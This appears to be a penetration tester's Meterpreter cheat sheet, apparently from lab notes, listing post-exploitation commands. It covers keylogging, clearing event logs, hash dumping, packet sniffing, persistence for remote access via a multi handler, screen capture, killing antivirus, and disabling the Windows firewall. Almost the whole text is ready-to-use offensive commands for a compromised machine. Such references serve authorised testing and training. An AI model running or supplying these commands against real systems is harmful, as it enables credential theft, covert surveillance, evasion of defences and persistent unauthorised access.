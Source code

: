 
# Meterpreter
https://pentestmag.com/metasploit-cheat-sheet/
https://github.com/security-cheatsheet/metasploit-cheat-sheet

## key logging

- Start

	  keyscan start
	
- View

	  keyscan dump
	  
## clear logs

	clearev
	
## search for exploits for a session

	background
	use post/multi/recon/local_exploit_suggester 
	set session <session #>
	run

## dumping hashes

	run hashdump
	
	or
	
	run post/windows/gather/smart_hashdump

## sniffing packets

- Enable sniffer
	  
	  use sniffer
	  
- List interfaces
	
	  sniffer_interfaces
	  
- Start sniffer

	  sniffer_start <target_inteface> <#_of_packets> 
	  
- Dump sniffed traffic to pcap

	  sniffer_dump <interface> <file.cap>
	  
## persistence

	run persistence -h
	
	run persistence -A -i 20 -p <listening_port>
	run persistence -U -i 20 -p <listening_port>

Next time we need to login and access the RAT, we only need to load up the Metasploit multi handler and set the parameters (LPORT 666, LHOST <Kali_IP>, and RHOST <Windows_IP>. We will also have to set the payload to the corresponding payload inside of a Metasploit handler from task one. If we were remote, we would use the portfwd command to port forward, but again that is out of scope. 

## screen grab

	use espia 
	screengrab 
	
## disable antivirus

	run killav
	
	or 
	
	run post/windows/manage/killav

## disable windows firewall

	shell
	netsh firewall set opmode mode=disable
